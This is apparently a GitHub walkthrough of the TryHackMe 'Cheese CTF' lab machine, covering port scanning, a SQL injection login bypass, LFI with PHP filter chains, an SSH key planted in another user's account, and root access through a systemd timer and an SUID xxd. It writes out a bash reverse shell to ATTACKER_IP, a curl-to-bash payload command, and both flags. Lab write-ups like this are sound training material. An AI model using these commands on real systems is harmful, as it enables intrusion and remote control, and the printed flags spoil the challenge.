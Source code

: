 # CHEESE CTF | TryHackMe Room
![1](./images/0.png)
This walkthrough details the step-by-step process of solving the CHEESE CTF, covering reconnaissance, exploitation, privilege escalation, and ultimately gaining root access. The target machine had several vulnerabilities, including SQL injection, Local File Inclusion (LFI), and misconfigured systemd timers.


### **1. Initial Reconnaissance**

**Port Scanning**

- Used Nmap to scan the first 1000 ports (nmap -p 1-1000 <TARGET_IP>).
![1](./images/1.png)

- Found that FTP (21), SSH (22), and HTTP (80) were open.
- Ran a detailed scan on these ports (nmap -sV -A -p 21,22,80 <TARGET_IP>) to identify services and versions.
![1](./images/2.png)

**FTP Enumeration**

- Attempted to connect via FTP (ftp <TARGET_IP>), but encountered an error.
 ![3](https://github.com/user-attachments/assets/ff96c1ee-cb1a-4cac-b203-b8d301db921f)
Possible issues:
- Anonymous login disabled.
- Credentials required (not yet obtained).

**Web Enumeration (Port 80)**
- Visited http://<TARGET_IP> and inspected the page.
![4](https://github.com/user-attachments/assets/0ff111fc-e85f-47b3-b0f2-688dd9545174)

- Checked the source code for hidden comments or secrets—nothing found.
![5](https://github.com/user-attachments/assets/866ee626-b598-4b1b-b901-328905eaf49b)

- Discovered a login page (/login.php). 
![6](https://github.com/user-attachments/assets/c3569166-9430-453d-aba2-e175b484654b)



### **2. Exploiting SQL Injection**
**SQLmap for Automated Testing**

- Ran SQLmap to test for SQLi:
`sqlmap -u "http://<TARGET_IP>/login.php" --forms --batch`
![7](https://github.com/user-attachments/assets/2116f5ba-01dd-470d-929c-d4f93d7f363a)

- Found a SQL injection vulnerability in the login form and the redirection.
![8](https://github.com/user-attachments/assets/afe330b3-0a7e-45f7-ba85-4ec938bb7e8d)

- Extracted database information, including a username (comte) and its password hash.
![9](https://github.com/user-attachments/assets/c8a7e7d1-8100-4bff-b44e-ca309d333714)


**Manual SQL Injection Bypass**

- Used a classic SQLi payload to bypass authentication:
```
Username: comte ' AND 1='1 --
Password: anything
```
![10](https://github.com/user-attachments/assets/f53cabec-be72-481b-8f71-5dccca1cff78)

- Successfully logged in and was redirected to a dashboard (/dashboard.php).
![11](https://github.com/user-attachments/assets/53e055b8-aa84-4a85-af9e-4e56e1355783)



### **3. Exploiting Local File Inclusion (LFI)**
**Testing LFI in the file Parameter**

- Discovered an LFI vulnerability in the file parameter (e.g., ?file=/etc/passwd).
- Retrieved /etc/passwd, confirming user comte exists.
![12](https://github.com/user-attachments/assets/f239a641-8683-4527-8747-c9d05212e21c)


**Reading PHP Files via Base64 Encoding**
- Used PHP filters to read source code:
`?file=php://filter/convert.base64-encode/resource=secret-script.php`
![13](https://github.com/user-attachments/assets/bc848ef3-430f-4120-864f-1f3c62a63ab6)


- Decoded the Base64 output to analyze secret-script.php.
![14](https://github.com/user-attachments/assets/0c5d129c-863c-48b5-afaf-706775ddfd45)


**Log Poisoning → RCE**

- Since the server used PHP, leveraged PHP wrappers for RCE:
Wrote a malicious payload(revshell) with this bash reverse shell.
`bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1` 
- I used the php-filter-chain script from the github to generate the filters to upload 
[🔗 Github link for the script ](https://github.com/synacktiv/php_filter_chain_generator.git)
using command

`python3 php_filter_chain_generator.py --chain '<?= 'curl -s -L <Attacker_IP>/<payload name>|bash' ?>'`
![15](https://github.com/user-attachments/assets/1d7ffe22-ade6-415e-b3a3-0f0dff277c24)

- Hosted it on a local server and triggered it via LFI.
`python3 -m http.server 80`
- Set up a listener  and received a shell.
`nc -lvnp <port>`
![16](https://github.com/user-attachments/assets/66814261-96fa-4b99-8ede-f08af2717c1f)


**User Flag**
- Found the user.txt in the home/comte directory but it had no permissions for us. as we are logged in as `www-data`
![17](https://github.com/user-attachments/assets/ac1b57c6-30e8-44d2-86e7-2b06a5b84d18)

- Found that /home/comte/.ssh/ had write permissions.
![18](https://github.com/user-attachments/assets/f3b421dd-c113-4296-91f3-ce1d969baaf6)

- Generated an SSH key pair (ssh-keygen).
![19](https://github.com/user-attachments/assets/f20e2be6-e418-47f6-8bba-ae55d2e25b91)

- Copied the public key (.pub) into authorized_keys.
![20](https://github.com/user-attachments/assets/d1607631-50de-4447-989a-74605bc9c272)

- Logged in via SSH and obtained the user flag.
`ssh comte@<TARGET_IP>`
![21](https://github.com/user-attachments/assets/09b87653-158c-417d-9ec0-81dd514f869e)
`THM{9f2ce3df1beeecaf695b3a8560c682704c31b17a}`


### **4. Privilege Escalation (User → Root)**
**Abusing Systemd Timer Privileges**
- Checked sudo privileges (sudo -l), found systemctl access.
![22](https://github.com/user-attachments/assets/e5de6f88-6066-4009-a878-a27a1442a99e)
- Discovered a misconfigured systemd timer (exploit.timer). and Modified the timer to execute immediately:
```
OnBootSec=0  
OnUnitActiveSec=0  
```
- ![23](https://github.com/user-attachments/assets/a6392e95-c03c-400d-9cff-797bcc587fec)


- Found the services it will triggered

![24](https://github.com/user-attachments/assets/faa4280e-4aee-467c-b5cd-1e85a7e4244a)

- I looked in the .services and then I started the timer.
`sudo systemctl start exploit.timer`
![25](https://github.com/user-attachments/assets/d97e5090-3ad1-42c6-b4a7-58be453bdefa)


**Reading Root Flag via xxd**
- Found that xxd (a hexdump utility) saved as a copy had SUID permissions.
![26](https://github.com/user-attachments/assets/b67576f6-6dad-4efc-8254-9fed5e1c0ca3)

- Used xxd to read /root/root.txt:
`xxd "/root/root.txt" | xxd -r`
![27](https://github.com/user-attachments/assets/5760dad8-4b5c-4364-a53a-be793792d92c)
`THM{dca75486094810807faf4b7b0a929b11e5e0167c}`
